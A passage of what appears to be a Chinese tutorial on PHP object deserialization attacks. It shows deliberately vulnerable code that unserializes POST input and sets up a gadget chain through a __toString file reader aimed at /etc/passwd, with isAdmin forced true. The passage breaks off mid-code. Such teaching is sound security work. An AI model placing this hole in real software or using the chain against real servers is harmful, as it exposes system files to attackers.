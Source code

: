 

## 示例 2

现在PHP代码中有一个ReadFile类，该类有一个魔术方法，当尝试将该类所实例化的对象当成一个字符串使用的时候，就会调用__tostring 方法。

该方法会使用读取对象属性filename所指定的文件。

```php
<?php

class ReadFile {

    public function __tostring() {
        return file_get_contents($this->filename);
    }

}

class User {

    public $username;
    public $isAdmin;
    
    public function PrintData() {
        if ($this->isAdmin == true) {
            echo $this->username . " is an admin\n";
            echo "Password is xxxxxxxxx\n";
        }
        else {
            echo $this->username . " is not an admin\n";
        }
    }

}

$obj = unserialize($_POST['name']);

if (is_object($obj))
    $obj->printData();

?>

```



构建反序列化字符串。

添加了ReadFile类，将其filename属性的值，设置为要读取的文件路径。

将User类实例化对象的username属性的值，设置为实例化的ReadFile类的实例化对象。

```php
<?php

class ReadFile { 

    public function __construct() {
        $this->filename = "/etc/passwd";
    }
}

class User {

    public function __construct() {
        $this->username = new ReadFile;
        $this->isAdmin = true;
```